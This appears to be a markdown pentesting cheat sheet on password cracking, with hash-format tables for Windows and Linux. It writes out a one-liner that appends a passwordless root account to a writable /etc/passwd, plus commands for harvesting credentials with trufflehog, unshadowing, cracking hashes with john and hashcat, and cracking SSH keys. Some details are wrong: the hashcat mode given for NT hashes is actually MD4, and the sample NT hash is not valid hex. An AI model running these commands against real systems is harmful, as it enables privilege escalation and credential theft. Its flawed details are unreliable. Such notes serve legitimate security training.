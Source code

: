 ### Identify Hashes
```
hash-identifier
```

```
hashid $hash
```

### For writable /etc/passwd
```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
### Create password for /etc/passwd
```bash
openssl passwd -1 -salt dummy dummy
```
### Find credentials in source
```bash
~/Documents/activeInformationGathering/trufflehog filesystem --no-verification $path
```

### Hashcat
NT Hash
```powershell
hashcat -a 3 -m 900 --encoding-to utf16le NTHashes.txt
```

### John
```
unshadow passwd shadow > unshadowed.txt
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt $file
```

### Encrypted SSH Key
```bash
ssh2john $file > id_rsa.hash
```
With this, you can pass id_rsa.hash to john as regular. 
### For unsalted hashes
https://crackstation.net/

## Formats explained
#### Windows
| | | | | 
|-|-|-|-|
| $Administrator:$|$500:$|$NO PASSWORD*********************:$|$BE134K40129560B46534340292AF4E72:::$|
|USER     |UID|            LM Hash             |     NT Hash (also called NTLM)|


CrackStation -> RockYou.txt (john)

If there IS an LM Hash present:
1. Copy whole lines into hashfile (user, uid, LMHash and NTHash)!
2. Run john with --format=LM (he will identify 2 hashes per lines, as LMHashes can be cracked partly)
3. Run john without attack type (e.g. wordlist) but with `--show`
   -> If there are ???? left, this part of the LM wasn't cracked yet. But it needs to.
   ( I've created a script to check spelling against the NTML Hash. It needs to be tested in a valid case though )
4. Create wordlist that only contains the found password canidate. It's in uppercase.
5. Run john with --rules, --format=NT and --wordlist=(the created wordlist) to get the password correctly spelled.

#### Linux
| | | | | |
|-|-|-|-|-|
|root:|\$6|\$IodYKEbO|\$5TglyZFgGW72oeW0Ql/9Wt7KwW2XWeW3TNmBUo94Qsj1tJg.tDs1HIuIlmyr/:|18251:0:99999:7:::|
|user| $*$|  Salt  |                     Hashed Password                         | Account Information|

|$(*)$|Algorithm|Hashcat|
|-|-|-|
|$1$  |MD5 |500|
|$2a$|Blowfish|3200|
|$2y$|Blowfish|
|$5$|SHA-256|7400|
|$6$|SHA-512|1800|

